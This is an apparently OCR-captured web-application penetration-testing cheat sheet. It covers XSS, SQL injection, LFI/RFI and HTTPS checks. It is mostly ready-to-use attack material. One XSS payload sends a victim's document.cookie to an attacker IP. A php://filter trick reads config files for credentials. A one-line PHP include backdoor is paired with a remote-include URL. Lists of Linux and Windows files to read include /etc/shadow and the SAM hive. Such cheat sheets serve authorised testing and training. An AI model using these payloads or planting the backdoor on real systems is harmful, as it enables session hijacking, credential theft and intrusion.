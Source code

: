 Things to be on look for:

> $ Default credentials for software  
> $ SQL-injectable GET/POST params  
> $ XSS  
> Test  
> $ &lt;script&gt; alert\("Hello! I am an alert box!!"\);&lt;/script&gt;  
> $ &lt;iframe SRC="http:10.11.0.106/xss\_test.html" height = "0" width ="0"&gt;&lt;/iframe&gt;  
> Exploit  
> $ &lt;script&gt;new Image\(\).src="[http://10.11.0.106/bogus.php?output=](http://10.11.0.106/bogus.php?output=)"+document.cookie;&lt;/script&gt;  
> $ LFI/RFI through ?page=foo type params  
> LFI:  
> $ /etc/passwd \| /etc/shadow insta-win  
> $ /var/www/html/config.php or similar paths to get SQL etc creds  
> $ ?page=php://filter/convert.base64-encode/resource=../config.php  
> $ ../../../../../boot.ini to find out windows version  
> RFI:  
> $ Have your PHP/cgi downloader ready  
> $ &lt;?php include \_GET\\['inc'\\]; ?&gt; simplest backdoor to keep it dynamic without anything messing your output &gt; $ Then you can just [http://IP/inc.php?inc=http://](http://IP/inc.php?inc=http://) &gt; $YOURIP/bg.php and have full control with minimal footprint on target machine $ get phpinfo\(\)

HTTPS

> $ Heartbleed / CRIME / Other similar attacks  
> $ Read the actual SSL CERT to:  
> $ find out potential correct vhost to GET  
> $ is the clock skewed  
> $ any names that could be usernames for bruteforce/guessing

LFI Linux Files:

> $ /etc/issue  
> $ /proc/version  
> $ /etc/profile  
> $ /etc/passwd  
> $ /etc/shadow  
> $ /root/.bash\_history  
> $ /var/mail/root  
> $ /var/spool/cron/crontabs/root  
> $ /etc/sysconfig/iptables  
> $ /etc/sysconfig/ip6tables

LFI Windows Files:

> $ %SYSTEMROOT%\repair\system  
> $ %SYSTEMROOT%\repair\SAM  
> $ %SYSTEMROOT%\repair\SAM  
> $ %WINDIR%\win.ini  
> $ %SYSTEMDRIVE%\boot.ini  
> $ %WINDIR%\Panther\sysprep.inf  
> $ %WINDIR%\system32\config\AppEvent.Evt  
> $ c:\windows\system32\drivers\etc\hosts
